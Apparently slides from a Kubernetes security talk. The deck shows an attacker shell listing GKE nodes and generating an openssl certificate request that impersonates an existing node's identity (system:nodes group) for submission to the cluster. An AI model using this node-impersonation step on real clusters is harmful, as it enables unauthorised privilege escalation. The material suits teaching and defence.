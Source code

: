 What now?

- We need to impersonate an existing Node!

---
### Target 1
## Recreate Cert with valid Node name
[.code: #ECAF3F, #ECAF3F, #ECAF3F, #ECAF3F, #ECAF3F]
[.code-highlight: 1-3]
[.code-highlight: 3]
[.code-highlight: 5-9]


```yaml
root@hckd# khack-final get no
NAME                                       STATUS  
gke-cluster-1-default-pool-34b372e1-bhfv   Ready   

root@hckd# openssl req -nodes -newkey rsa:2048  \
#    -keyout skynet.key                         \
#    -out skynet.csr                            \
#    -subj                                      \
#    "/O=system:nodes/CN=system:node:gke-cluster-1-default-pool-34b372e1-bhfv"
Generating a RSA private key
....................................+++++
...........................+++++
writing new private key to 'skynet.key'
-----
```
---
### Target 1
## Recreate Cert with valid Node name
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: 3,9]


```yaml
root@hckd# khack-final get no
NAME                                       STATUS  
gke-cluster-1-default-pool-34b372e1-bhfv   Ready   

root@hckd# openssl req -nodes -newkey rsa:2048  \
     -keyout skynet.key                         \
     -out skynet.csr                            \
     -subj                                      \
#    "/O=system:nodes/CN=system:node:gke-cluster-1-default-pool-34b372e1-bhfv"
Generating a RSA private key
....................................+++++
...........................+++++
writing new private key to 'skynet.key'
-----
```
---
### Same as before...
### Submit certificate
